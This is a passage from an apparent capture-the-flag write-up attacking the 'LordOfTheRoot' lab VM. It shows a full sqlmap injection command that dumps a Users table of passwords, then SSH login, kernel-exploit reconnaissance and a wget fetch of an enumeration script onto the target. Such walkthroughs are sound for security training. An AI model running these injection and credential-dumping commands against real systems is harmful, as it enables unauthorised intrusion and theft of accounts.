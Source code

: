 ``` 
current database:    'Webapp'
```

Next, I dumped the discovered database:

``` 
sqlmap -u "http://192.168.217.136:1337/978345210/index.php" --method POST -o --level=5 --risk=3 --dbms=MySQL -p username --data="username=smeagol&password=precious&submit=+Login+" -D Webapp --dump
[...]
Database: Webapp
Table: Users
[5 entries]
+----+----------+------------------+
| id | username | password         |
+----+----------+------------------+
| 1  | frodo    | iwilltakethering |
| 2  | smeagol  | MyPreciousR00t   |
| 3  | aragorn  | AndMySword       |
| 4  | legolas  | AndMyBow         |
| 5  | gimli    | AndMyAxe         |
+----+----------+------------------+
```

Now that I had usernames and passwords, it was time to test them on SSH! I started with smeagol, because it looked slightly different than the others :-) And I got in:

``` 
smeagol@LordOfTheRoot:~$ uname -a
Linux LordOfTheRoot 3.19.0-25-generic #26~14.04.1-Ubuntu SMP Fri Jul 24 21:18:00 UTC 2015 i686 i686 i686 GNU/Linux
```

So, especially for older machines, one of the first things I do is check the kernel version. Googling it actually yielded a [privilege escalation exploit](https://www.exploit-db.com/exploits/39166/) right away. I decided to save this approach for last, because the exploit wasn't known at the time of the VM release. Instead, I proceeded to some more conventional enumeration.


I downloaded my [linux_privcheck](https://github.com/chousensha/linux_privcheck) tool with <code>wget https://raw.githubusercontent.com/chousensha/linux_privcheck/master/privinfo.py</code> and ran it on the machine while I ate a lasagna. Then I combed through the output (note to self: I have to revisit my script and make improvements to it, will get to it). The interesting tidbits that I observed were:

``` 
root      1174     1  0 08:15 ?        00:00:08 /usr/sbin/mysqld
```

MySQL running as root! Definitely on to something there, as we could get root credentials from SQLi. The other thing I found were some setuid binaries in a suspicious folder:

``` 
/SECRET/door2/file
/SECRET/door1/file
/SECRET/door3/file
```
